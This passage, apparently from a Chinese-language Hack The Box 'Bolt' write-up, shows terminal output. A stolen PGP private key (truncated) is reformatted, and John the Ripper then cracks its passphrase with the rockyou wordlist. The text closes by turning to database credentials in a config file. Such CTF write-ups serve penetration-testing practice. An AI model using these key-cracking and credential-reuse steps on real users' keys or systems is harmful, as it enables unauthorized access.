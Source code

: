 ```
┌──(root💀kali)-[~/htb/bolt]
└─# cat eddie_private_key | sed 's/\\\\r\\\\n/\n/g' > eddie_id_rsa

┌──(root💀kali)-[~/htb/bolt]
└─# cat eddie_id_rsa                                              
-----BEGIN PGP PRIVATE KEY BLOCK-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

xcMGBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi
<SNIP>
11Izrkqamzpc6mKBGi213tYH6xel3nDJv5TKm3AGwXsAhJjJw+9K0MNARKCm
YZFGLdtA/qMajW4/+T3DJ79YwPQOtCrFyHiWoIOTWfs4UhiUJIE4dTSsT/W0
PSwYYWlAywj5
=cqxZ
-----END PGP PRIVATE KEY BLOCK-----
```

# 开膛手约翰

我们可以用 JohnTheRipper 试着破解私钥。首先转换成 John 可以使用的散列:

```
┌──(root💀kali)-[~/htb/bolt]
└─# john eddie_pgp_hash --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 16777216 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 8 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>   (Eddie Johnson)
1g 0:00:07:50 DONE (2021-10-26 22:31) 91.02C/s mhines..menudo
Session completed
```

# MySQL 访问

这很简单，但是我们需要这个做什么？回头看看我们之前找到的 passbolt.php 文件，我们有没有尝试过的数据库凭证。现在让我们看看那里:
